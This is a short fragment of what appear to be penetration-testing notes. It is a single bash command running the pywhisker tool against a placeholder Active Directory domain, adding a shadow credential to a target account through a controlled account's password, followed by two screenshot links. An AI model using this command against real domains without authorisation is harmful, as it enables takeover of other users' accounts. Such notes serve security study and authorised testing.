 ```bash
pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"
```

![](Assets/Pasted%20image%2020250707130639.png)
![](Assets/Pasted%20image%2020250707131414.png)